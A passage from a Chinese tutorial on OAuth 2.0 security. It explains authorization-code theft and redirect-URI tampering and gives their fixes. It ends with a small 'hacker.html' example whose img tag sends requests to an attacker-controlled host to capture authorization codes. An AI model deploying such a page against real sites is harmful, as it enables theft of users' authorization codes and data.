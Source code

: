 ## 授权码失窃

我们举个例子，先来学习授权码失窃这个场景。

如果第三方软件A有合法的app\_id和app\_secret，那么当它去请求访问令牌的时候，也是合法的。这个时候没有任何问题，让我们继续。

如果有一个用户G对第三方软件B，比如极客时间，进行授权并产生了一个授权码codeB，但并没有对攻击者软件A授权。此时，软件A是不能访问用户G的所有数据的。但这时，如果软件A获取了这个codeB，是不是就能够在没有获得用户G授权的情况下访问用户G的数据了？整个过程如下图所示。

![](images/261403/7d464d5a0c49a77862fef10f77cf057b.png)

**这时问题的根源就在于两点：**

- 授权服务在进行授权码校验的时候，没有校验app\_id\_B；
- 软件B（也就是极客时间）使用过一次codeB的值之后，授权服务没有删除这个codeB；

看到这里，通过校验app\_id\_B，并删除掉使用过一次的授权码及其对应的访问令牌，就可以从根本上来杜绝授权码失窃带来的危害了。

说到这里，你不禁要问了，授权码到底是怎么失窃的呢？接下来，我要介绍的就是授权码失窃的可能的方法之一，这也是OAuth 2.0中因重定向URI校验方法不当而遭受到的一种危害。这种安全攻击类型，就是重定向URI被篡改。

## 重定向URI被篡改

有的时候，授权服务提供方并没有对第三方软件的回调URI做完整性要求和完整性校验。比如，第三软件B极客时间的详细回调URI是 `https://time.geekbang.org/callback`，那么在完整性校验缺失的情况下，只要以 `https://time.geekbang.org` 开始的回调URI地址，都会被认为是合法的。

此时，如果黑客在 `https://time.geekbang.org/page/` 下，创建了一个页面 **hacker.html**。这个页面的内容可以很简单，其目的就是让请求能够抵达攻击者的服务。

```
<html>
<img src ="https://clientA.com/catch">
</html>

```
